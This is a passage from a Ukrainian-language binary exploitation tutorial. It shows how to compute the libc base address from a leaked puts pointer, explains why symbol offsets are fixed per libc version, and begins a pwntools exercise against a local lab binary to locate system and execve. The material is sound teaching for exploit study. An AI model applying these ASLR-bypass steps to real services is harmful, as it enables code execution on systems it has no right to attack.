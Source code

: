 **4. Сервер виводить:**
```
Server → Client: "PUTS=0x7ffff7a809c0\n"
```

**5. Ми розраховуємо:**
```python
leaked_puts = 0x7ffff7a809c0
offset_puts = 0x809c0          # З файлу libc.so.6

libc_base = leaked_puts - offset_puts
          = 0x7ffff7a809c0 - 0x809c0
          = 0x7ffff7a00000

# Тепер знаємо де все:
system_addr = libc_base + 0x50d70
            = 0x7ffff7a00000 + 0x50d70
            = 0x7ffff7a50d70
```

### Чому offset'и фіксовані?

Offset - це **відстань** від початку файлу до функції. В одному файлі вона завжди однакова!

```bash
# Подивіться на offset в файлі
readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep puts

# Результат:
# 1354: 00000000000809c0  456 FUNC GLOBAL DEFAULT 14 puts@@GLIBC_2.2.5
#                 ^^^^^^
#                 Offset (завжди однаковий для цього файлу)
```

**Важливо:** Різні версії libc мають **різні offset'и**!

```
Ubuntu 20.04 libc:  puts @ 0x809c0
Ubuntu 22.04 libc:  puts @ 0x80ed0  ← ІНШИЙ offset!
```

Тому **критично важливо** використовувати ту саму libc що й програма!

## 🎓 Практичні завдання

### Завдання 1: Перевірка різних функцій

```python
#!/usr/bin/env python3
from pwn import *

libc = ELF('/lib/x86_64-linux-gnu/libc.so.6', checksec=False)

# Витягуємо leak
io = process('../build/stage07_leak_demo')
io.sendline(b'LEAK')
leaked = int(io.recvline().split(b'=')[1], 16)
io.close()

# Розраховуємо базу
libc.address = leaked - libc.symbols['puts']

# Виводимо адреси корисних функцій
functions = ['system', 'execve', 'open', 'read', 'write', 'mprotect']
for func in functions:
    try:
        addr = libc.symbols[func]
```